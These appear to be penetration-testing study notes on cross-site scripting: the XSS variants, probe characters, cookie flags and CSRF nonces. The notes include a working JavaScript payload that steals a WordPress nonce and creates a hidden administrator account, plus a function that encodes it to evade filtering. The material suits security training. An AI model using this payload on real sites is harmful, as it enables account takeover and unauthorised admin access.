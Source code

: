 
-------
Stored XSS attacks, also know as *Persistent* XSS, occurs when the exploit payload is stored in a database or cached by the server. The web application then displays the payload to anyone that visits the vulnerable site.

*Reflected* XSS attacks usually include the payload in crafted requests or links.

Either of these two vulnerability variants can manifest as client or server-side; they can also be DOM-based

DOM-Based XSS takes place solely within the pages Document Object Model (DOM). DOM based XSS can be stored or reflected

#### Identifying XSS vulnerabilities

We can find potential entry points for XSS by examining a web application and identifying input fields that accept unsensitized input. Once we identify an input we can input special characters to try and cause an error in loading the Web response. The most common characters for this include:

- <
- >
- '
- "
- {
- }
- ;

#### Privilege Escalation via XSS

Since XSS can be used to run JavaScript code on the client side, we could leverage this to steal information from the user such as cookies. If we steal an authenticated users cookie we could act as that user for a period of time.

When trying to steal user cookies, there are two server security headers that are important to us:
 - Secure - only over HTTPS
 - HttpOnly - JavaScript does not have access to the cookie

Furthermore, when conducting CSRF (Cross Site Request Forgery) a security header know as a CSRF-TOKEN acts as a method to prevent CSRF attacks. This works by sharing a long and unpredictable value only with the webserver and client. Any requests in the webserver need to be made with the token or else they are ineffective.

This means that a malicious link will not execute as the nonce value is not know to the attacker. However once this is known the attack can become successful. The nonce, will regenerate frequently.

The Nonce will not be effective if XSS is triggered on the site itself as the request will already include the user nonce. It will only be effective if a CSRF request is to another site, in which the CSRF token cannot be reasonably known. Unless the attacker finds XSS on both sites in which CSRF will be pointless.

Simple JavaScript payload to gain user CSRF nonce and execute code on admin account:

```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

To prevent this payload from incorrectly running we convert the characters into ASCII equivalent to prevent bad characters. This can be done using this code:

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
